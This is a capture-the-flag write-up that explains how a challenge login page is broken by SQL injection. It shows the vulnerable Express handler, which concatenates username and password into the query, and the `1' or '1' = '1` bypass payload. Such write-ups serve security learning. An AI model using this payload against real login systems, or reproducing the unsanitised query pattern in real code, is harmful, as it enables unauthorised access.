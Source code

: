 2. The website greets us with an authentication page. 

```html
<!DOCTYPE html>

<html lang="en">

<body>
    <div style="text-align:center">

        <h1>Sign in:</h1>
        <form id="login_form" action="/flag" method="POST">
            <label for="username">Username: </label><input type="text" name="username" id="username"><br>
            <label for="password">Password: </label><input type="password" name="password" id="username"><br>
            <input type="submit" name="submit" id="submit" value="Login">
        </form>
    </div>
</body>
```

1. The `app.js` file is analyzed and we find out the following important attack vector.

```js
app.post('/flag', (req, res) => {
            db.all("SELECT * FROM users WHERE username='" + req.body.username + "' AND password='" + req.body.password + "'", (err, rows) => {
                        try {
                            if (rows.length == 0) {
                                res.redirect("/?alert=" + encodeURIComponent("you are not admin :("));
                            } else if (rows[0].username === "admin") {
                                res.redirect("/?alert=" + encodeURIComponent(flag));
                            } else {
                                ...
```

4. The SQL Query is not sanitized and basic SQL Injection techniques are plausible. Our username has to be `admin`.

5. We pass in the following user inputs:
```
username=admin
password=1' or '1' = '1
```

Here the SQL Query would become 

```sql
"SELECT * FROM users WHERE username='admin' AND password='1' or '1' = '1'"
```

...resulting in a `True` output and giving us authentication to the user. And sure enough, we get an authenticated render of the page and get the flag.

6. A simple curl command can also show the redirect url and get the flag, make sure to url decode the string.
